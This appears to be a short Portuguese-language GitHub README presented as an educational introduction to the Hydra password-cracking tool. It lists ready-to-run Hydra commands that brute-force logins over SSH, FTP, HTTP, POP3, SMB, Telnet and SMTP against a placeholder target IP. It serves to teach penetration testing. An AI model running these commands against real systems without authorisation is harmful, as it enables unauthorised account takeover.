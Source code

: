 # Hydra

!!!!!! (Apenas para fins de educação) Este projeto é criado apenas para fins educacionais. !!!!!!

Nesse repositório abordarei mais a respeito do Hydra, que é um software conhecido em segurança da informação e pentest. Não é exatamente uma ferramenta "hacker", mas sim uma ferramenta que pode ser usada por profissionais para testar a segurança de sistemas e redes e analisar suas vulnerabilidades.

Se você se conhece, mas não conhece o inimigo, para cada vitória ganha. sofrerá também uma derrota. - antigo proverbio chinês.

Nos comandos o “username” é o nome do usuário que você deseja atacar e “password_list.txt” é o nome do arquivo de lista de senhas que você deseja usar para o ataque. O “target_ip” é o endereço IP do servidor que você deseja atacar.


Força bruta em SSH:

hydra -l username -P password_list.txt ssh://target_ip 

Força bruta em FTP:

hydra -l username -P password_list.txt ftp://target_ip  

Força bruta em HTTP:

hydra -L user_list.txt -P password_list.txt http://target_ip

Força Bruta em POP 3:

hydra -l username -P password_list.txt pop3://target_ip

Força Bruta em SMB:

hydra -l username -P password_list.txt smb://target_ip

Força Bruta em Telnet: 

hydra -l username -P password_list.txt telnet://target_ip

Força Bruta em SMTP:

hydra -l username -P password_list.txt smtp://target_ip

